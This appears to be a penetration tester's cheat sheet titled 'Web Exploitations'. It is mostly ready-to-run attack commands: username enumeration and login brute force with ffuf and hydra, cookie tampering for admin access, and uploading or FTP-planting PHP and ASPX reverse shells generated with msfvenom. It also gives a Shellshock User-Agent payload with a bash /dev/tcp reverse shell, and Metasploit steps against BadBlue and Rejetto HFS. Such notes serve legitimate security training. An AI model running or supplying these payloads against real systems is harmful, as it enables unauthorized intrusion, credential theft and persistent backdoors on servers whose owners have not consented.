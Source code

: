 # Web Exploitations

## Authentication Bypass

### Username enumeration

If the login or register page tell me a message like this when i try to use a username: "**An account with this username already exists**". We can use some tools to enumerate valid users.

{% code title="ffuf" overflow="wrap" %}
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=X&password=X&cpassword=X" -H "Content-Type: application/x-www-form-urlencoded" -u http://DOMAIN.COM/customers/signup -mr "username already exists"

# -w: specific a list of usernames
# -X: set request method
# -d: specify the parameters with FUZZ par
# -H: set header
# -u: indicate the URL
# -mr: message which indicate that user is already exists
```
{% endcode %}

### HTTP Login Brute Force&#x20;

{% code title="hydra" overflow="wrap" %}
```bash
# first check the source code of the web page
# check the request method (POST,GET,...)
# check the login variable (user, password)
# check the error response in case of invalid creds

# use hydra tool to do login brute force
hydra -L usernames -P passwords IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```
{% endcode %}

{% code title="ffuf" overflow="wrap" %}
```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://$URL/login -fc 200

# -w: declare wordlists into variables W1 and W2
# -d: set parameters with the Wordlist declared before
# -fc: positive match, avoid HTTP response 200
```
{% endcode %}

### Basic HTTP Auth Brute force

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/500-worst-passwords.txt DOMAIN.com http-get "/login/page/"                                                               
```
{% endcode %}



### Logic Flaw

Try to check the logic of these pages/actions for a website to find authentication bypasses:

* Reset Password Logic
* Login page Logic
* Register page Logic

#### Create a "doppelganger"

To create a new user with the same name as the target user but with a space at the beginning of the name, follow these steps..

For hacking the user **admin**. We have to create a user with this name " `admin`" (without quotes). In this way all the query for this new user will be  the same of the target user.

### Cookie Tampering

**Examining and editing the cookies** set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

If we have this cookies in a website:

```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```

We can change this cookie like this to become a Admin:

```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=true; Max-Age=3600; Path=/
```



## Put file in '/uploads' folder

```bash
#! copy a revshell in php  
cp /usr/share/webshells/php/php-reverse-shell.php .
# or generate a payload 
msfvenom -p php/meterpreter_reverse_tcp lhost=IP lport=PORT -o shell.php

# Request to upload a file with revshell
curl http://IP/uploads/ --upload-file php-reverse-shell.php

# Delete file uploaded
curl -X DELETE http://IP/uploads/php-reverse-shell.php
```



## Backdoor Web via FTP

**Required:**

* WebServer connection via FTP
* User permissions to add file in web directory&#x20;

```bash
# Prepare the shell
ls -la /usr/share/webshells/
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
# Once we're in a web dir via ftp
put shell.php
```

```bash
# .aspx Payload
## create payload
msfvenom -p windows/shell/reverse_tcp LHOST=ATT_IP LPORT=ATT_PORT -f asp > shell.aspx
## -p: paylaod to use
## LHOST: attacker ip
## LPORT: attacker listener port
## -f: output format

## put payload via ftp (in ftp connection)
put shell.aspx

# set up msfconsole handler
service postgresql start && msfconsole
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST ATT_IP
set LPORT ATT_PORT
```



## Targeting PHP

```bash
# PHP Enum file
/phpinfo.php


# Search vulnerable php version
searchsploit php cgi
## Select a exploit and copy it
searchsploit -m EXPLOIT_ID
vim EXPLOIT_ID
```



## Know vulns

### Shellshock

#### Manual Exploitation

```bash
# Search a .cgi sccript
 
# Run nmap script for shellshock vuln check
nmap -sV $IP --script=http-shellshock --script-args "http-shellshock.uri=/$SCRIPT.cgi"
 
# intercect the request with .cgi script vuln and edit the User-Agent header with Burp Suit
GET /test.cgi
user-Agent: () { : ; }; echo; echo; /bin/bash -c '$CMD'
 
# get a revshell
# edit $CMD field with rev shell (burp)
bash -i >/dev/tcp/$IP/$PORT 0>&1
 
# set listener port in kali machine
nc -lnvp $PORT
```

#### Automatic Explotation

```bash
#start metasploit console with database
service postgresql start && msfconsole
 
#search, conf and run metasploit module
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS IP
set RPORT PORT
set TARGETURI SCRIPT_PATH
exploit
```

### Badblue (2.7)

#### Metasploit Exploitation

```bash
searchsploit BadBlue 2.7

# BadBlue 2.7
service postgresql start && msfconsole
search BadBlue
use exploit/windows/http/badblue_passthru
set RHOSTS IP
show options
exploit
```



### Rejetto (HttpFileServer 2.3)

#### Manual Exploitation

```bash
# Search exploit
searchsploit rejetto
# Copy the script
searchsploit -m 39161
```

1. Read and edit python script (ip\_addr, local\_port)
2. Set listener (nc -nvlp 1234)
3. Set a python web server in a directory where there is nc.exe file (python3 -m http.server 80)\
   -> (/usr/share/windows-resources/binaries)
4. run the script (python3 39161.py IP PORT)

#### Metasploit Exploitation

```bash
service postgresql start && msfconsole
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS
set TARGETURI
exploit
```
